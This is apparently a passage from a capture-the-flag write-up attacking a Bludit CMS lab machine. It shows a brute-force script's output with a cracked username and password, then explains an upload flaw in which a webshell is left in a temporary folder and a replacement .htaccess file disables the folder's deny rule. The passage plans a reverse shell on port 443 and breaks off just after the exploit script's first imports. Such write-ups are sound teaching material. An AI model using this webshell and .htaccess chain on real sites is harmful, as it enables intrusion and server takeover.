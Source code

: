 

    root@kali# time ./bludit_brute.py wordlist 
    SUCCESS: Password found!                                                                              
    Use fergus:RolandDeschain to login.


    real    0m16.018s
    user    0m1.840s
    sys     0m0.253s



### PHP Upload Exploit

There's a Metasploit script that will just run this, but I want to
understand what's happening. There are two issues on GitHub about this,
[1079](https://github.com/bludit/bludit/issues/1079) and
[1081](https://github.com/bludit/bludit/issues/1081). The first takes
advantage of the fact that when a PHP file is uploaded, it is stored in
a temporary location before the extension check. If the extension check
returns that the file is ok, it is moved to the right location. But if
the check returns that it fails, the file is not removed from the
knowable temporary location. Code won't run out of that location due to
the `.htaccess` file from the root of the project:



    # Deny direct access to the next directories
    rewriteRule ^bl-content/(databases|workspaces|pages|tmp)/.*$ - [R=404,L]



However, I can override that by uploading a new `.htaccess` file to that
directory.

The second ([1081](https://github.com/bludit/bludit/issues/1081)) is a
criticism of an incomplete fixing of the bug between versions, and as
both ticket are closed with "Fixed in Bludit v3.10.0.", I'll focus on
the first to start.

My script will take the following steps:

1.  Login.
2.  Get a CSRF token from the uploads page.
3.  Upload the webshell as a `.php` file. Server will say it fails, but
    copy will still be saved in `/bl-content/tmp`.
4.  Upload `.htaccess` file that turns off `RewriteEngine`.
5.  Trigger webshell with reverse shell on port 443.

My script is:



    #!/usr/bin/env python3

    import netifaces as ni
    import re
    import requests
